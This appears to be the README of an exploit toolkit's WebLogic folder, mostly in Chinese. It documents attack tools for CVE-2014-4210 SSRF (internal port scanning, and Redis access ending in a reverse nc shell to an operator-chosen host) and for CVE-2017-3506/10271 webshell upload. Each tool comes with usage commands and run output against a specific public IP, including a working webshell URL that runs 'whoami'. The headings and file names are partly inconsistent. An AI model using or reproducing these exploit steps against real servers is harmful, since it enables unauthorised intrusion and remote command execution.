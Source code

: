 # About Oracle Weblogic
> WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

# Vulnerability list
[**cve-2014-4210_ssrf_scan.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2014-4210_ssrf_scan.py) Weblogic ssrf扫描内网端口利用脚本 [[使用]](https://freeerror.org/d/483-ssrf)  
[**cve-2014-4210_ssrf_redis_shell.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2014-4210_ssrf_redis_shell.py) Weblogic ssrf漏洞内网redis未授权getshell脚本[[使用]](https://freeerror.org/d/483-ssrf)  
[**cve-2017-3506_poc.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2017-3506_poc.py) Weblogic wls-wsat远程命令执行漏洞检测脚本[[使用]](https://freeerror.org/d/468-cve-2017-3506-weblogic-wls-wsat)  
[**cve-2017-3506_webshell.jar**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2017-3506_webshell.jar) Weblogic wls-wsat远程命令执行漏洞利用，上传Webshell[[使用]](https://freeerror.org/d/468-cve-2017-3506-weblogic-wls-wsat)  
[**cve-2017-10271_poc.jar**](https://github.com/zhzyker/exphub/blob/master/weblogic) Weblogic wls-wsat XMLDecoder反序列化漏洞检测脚本[[使用]](https://freeerror.org/d/460)
[**cve-2017-10271_webshell.jar**](https://github.com/zhzyker/exphub/blob/master/weblogic) Weblogic wls-wsat XMLDecoder反序列化漏洞利用脚本，上传Webshell[[使用]](https://freeerror.org/d/460)

# Readme
部分脚本文件使用说明，详细使用分析请参考[vulnerability-list](https://github.com/zhzyker/exphub/tree/master/weblogic#vulnerability-list)中的[使用]
- VER: 漏洞影响版本，一般情况下不在影响范围的版本没有相关漏洞
- USE: 脚本文件使用说明，大部分写在了脚本里，执行即可见
- EXP: 脚本利用示例，以及执行效果
- DES: 部分特殊脚本文件的特殊描述

## CVE-2014-4210_ssrf_scan.py Weblogic SSRF 漏洞扫描内网端口
> VER:
> ```
> Weblogic 10.0.2
> Weblogic 10.3.6
> ```
> USE:
> ```
> zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_scan.py 
> +----------------------------------------------------------------------+
> + USE: python <filename> <target_ip:port> <scan_address> <process>     +
> + EXP: python cve-2014-4210_ssrf_scan.py 1.1.1.1:7001 192.168.1.0 20   +
> + VER: 10.0.2,10.3.6                                                   +
> +----------------------------------------------------------------------+
> ```
> EXP:
> ```
> zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_scan.py  59.110.214.109:7001 192.168.112.0 30
> 192.168.112
> [*]+------------------------+
> [*]+  Scanning ip and port  +
> [*]+------------------------+
> [+] 192.168.112.1:22
> [+] 192.168.112.2:80
> [+] 192.168.112.3:7001
> [+] 192.168.112.1:7001
> [+] 192.168.112.2:6379
> [*]+------------------------+
> [*]+     Scan completed     +
> [*]+------------------------+
> ```  

## CVE-2014-4210_ssrf_scan.py Weblogic SSRF 漏洞扫描内网端口
> VER:
> ```
> Weblogic 10.0.2
> Weblogic 10.3.6
> ```
> USE:
> ```
> zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_redis_shell.py 
> +---------------------------------------------------------------------------------------------------+
> + USE: python <filename> <weblogic_ip> <weblogic_port> <inside_ip> <inside_port> <nc_ip> <nc_port>  +
> + EXP: python filename.py 1.1.1.1 7001 192.168.1.1 6379 2.2.2.2 5555                                +
> + VER: 10.0.2,10.3.6                                                                                +
> +---------------------------------------------------------------------------------------------------+
> ```
> DES:
> ```
> <weblogic_ip> weblogic的IP地址
> <weblogic_port> weblogic的端口，一般情况下为7001
> <inside_ip> 内网redis主机的IP地址，该地址通过 6.1 的scan脚本得出
> <inside_port> 内网redis的端口，默认6379
> <nc_ip> 反弹nc shell的IP
> <nc_port> 反弹nc shell的端口
> ```
> EXP:
> ![Image](https://github.com/zhzyker/exphub/blob/master/weblogic/image/cve-2014-4210_ssrf_redis_shell.png)
  
## CVE-2017-3506_poc.py Weblogic wls-wsat远程命令执行漏洞检测脚本
> VER:
> ```
> 10.3.6.0
> 12.1.3.0
> 12.2.1.0
> 12.2.1.1
> 12.2.1.2 
> ```
> USE:
> ```
> zhzy@debian:$ python cve-2017-3506_poc.py
> +--------------------------------------------------------+
> + USE: python cve-2017-3506_poc.py <url:port>            +
> + VER: 10.3.6.0, 12.1.3.0, 12.2.1.0, 12.2.1.1, 12.2.1.2  +
> + EXP: python cve-2017-3506_poc.py 59.110.214.109:7001   +
> +--------------------------------------------------------+
> ```
> EXP:
> ```
> zhzy@debian:$ python cve-2017-3506_poc.py 59.110.214.109:7001
> [+] CVE-2017-3506 Vulnerability
> zhzy@debian:$ python cve-2017-3506_poc.py 59.110.214.109:7000
> [-] No Vulnerability
> ```

## cve-2017-3506_webshell.jar Weblogic wls-wsat远程命令执行漏洞利用，上传Webshell
> VER:
> ```
> 10.3.6.0
> 12.1.3.0
> 12.2.1.0
> 12.2.1.1
> 12.2.1.2 
> ```
> USE:
> ```
> zhzy@debian:$ java -jar cve-2017-10271_webshell.jar 
> [*]              Oracle : WebLogic wls-wsat RCE Exp
> [*]              CVE ID : CVE-2017-3506 & CVE-2017-10271
> [*]  Vulnerability info : https://secfree.com/article-635.html
> [*]              Author : Bearcat@secfree.com
> [*]  Vulnerability page ：wls-wsat/CoordinatorPortType & wls-wsat/CoordinatorPortType11 
> [*]               Usage ：java -jar WebLogic_Wls-Wsat_RCE_Exp.jar http://xxx.xxx.xxx.xxx:7001 test.jsp
> [*] Vulnerability patch : http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html
> ```
> EXP:
> ```
> zhzy@debian:$ java -jar cve-2017-10271_webshell.jar http://59.110.214.109:7007 > shell.jsp
> [*] Starting exploit...
> [*] Sending payloads...
> [*] Payloads sent...
> [*] Opening shell...
> [*] pwned! Go ahead...
> 
> [+] http://59.110.214.109:7007/bea_wls_internal/shell.jsp?password=secfree&command=whoami
> ```

## cve-2017-10271_poc.jar Weblogic wls-wsat XMLDecoder反序列化漏洞检测脚本
> VER:
> ```
> Oracle WebLogic Server10.3.6.0.0 版本
> Oracle WebLogic Server12.1.3.0.0 版本
> Oracle WebLogic Server12.2.1.1.0 版本
> Oracle WebLogic Server12.2.1.2.0 版本
> ```
> USE:
> ```
> zhzy@debian:$ java -jar cve-2017-10271_poc.jar 
> 
> [*]         	WebLogic wls-wsat组件反序列化漏洞检测工具
> [*]      CVE编号  CVE-2017-10271
> [*]     漏洞详情  https://www.secfree.com/article-635.html
> [*]     作者邮箱  Bearcat@secfree.com
> [*] 使用方法:
> [*]  单个URL检测  java -jar WebLogic-Wls-wsat-XMLDecoder.jar -u http://www.xxx.com:7001
> [*]     批量检测  java -jar WebLogic-Wls-wsat-XMLDecoder.jar -f UrlfilePath
> ```
> EXP:
> ```
> zhzy@debian:$ java -jar cve-2017-10271_poc.jar -u http://59.110.214.109:7001
> 
> [11:33:37] [+] 漏洞存在 http://59.110.214.109:7001/wls-wsat/test.logs
> ```

## cve-2017-10271_webshell.jar Weblogic wls-wsat XMLDecoder反序列化漏洞利用脚本，上传Webshell
> VER:
> ```
> Oracle WebLogic Server10.3.6.0.0 版本
> Oracle WebLogic Server12.1.3.0.0 版本
> Oracle WebLogic Server12.2.1.1.0 版本
> Oracle WebLogic Server12.2.1.2.0 版本
> ```
> EXP:
> ```
> zhzy@debian:$ java -jar cve-2017-10271_webshell.jar -u http://59.110.214.109:7001
> 
> [*] Starting exploit...
> [*] Sending payloads...
> [*] Payloads sent...
> [*] Opening shell...
> [*] pwned! Go ahead...
> 
> [+] -u/bea_wls_internal/http://59.110.214.109:7001?password=secfree&command=whoami
> ```
